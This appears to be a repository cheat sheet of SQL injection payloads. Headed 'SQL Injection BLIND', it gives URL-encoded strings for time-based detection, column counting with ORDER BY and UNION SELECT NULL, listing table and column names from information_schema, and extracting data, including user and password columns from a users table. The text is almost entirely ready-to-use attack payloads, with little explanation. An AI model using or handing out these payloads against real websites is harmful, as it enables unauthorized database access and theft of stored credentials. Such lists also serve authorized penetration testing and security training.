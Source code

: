SQL Injection BLIND
===================

CheatSheets
-----------
```

```

Detection
---------
```sql
'+and+sleep(5)--%20
'+AND+BENCHMARK(100,SHA1(1337))--%20
'+AND+(SELECT+4057+FROM+(SELECT(SLEEP(5)))rYrD)--%20
```

Find Number of Columns
----------------------
```sql
# Monitor Responses for Differences. 
# Order by "1" should show a valid response, increase value until a different response is returned. 
'+order+by+1--%20
'+order+by+1000--%20

# Monitor Responses for Differences. 
'+UNION+SELECT+NULL--%20
'+UNION+SELECT+NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL,NULL--%20
```

Get Table Names
------------
```sql
'+union+all+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--%20
```

Get Column Names
----------------
```sql
1'+union+all+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database()--%20
```

Get Data from Columns
---------------------
```sql
'+union+all+select+1,group_concat(<columnName1>,<columnName2)+from+users--%20
'+union+all+select+1,group_concat(user,password)+from+users--%20
```
